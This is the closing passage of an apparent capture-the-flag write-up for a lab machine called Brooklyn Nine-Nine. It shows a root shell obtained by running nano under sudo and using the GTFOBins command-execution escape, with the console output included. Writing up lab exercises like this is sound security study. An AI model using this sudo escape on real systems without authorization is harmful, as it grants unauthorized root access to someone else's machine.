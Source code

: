 Or we can gain shell as root using [gtfobins](https://gtfobins.github.io/gtfobins/nano/)
{% highlight console %}
holt@brookly_nine_nine:~$ sudo /bin/nano 
^R^X
Command to execute: reset; sh 1>&0 2>&0#                                                                     
# whoami
root
# hostname

{% endhighlight %}

### That's it for this machine. Stay safe and Happy Hacking!
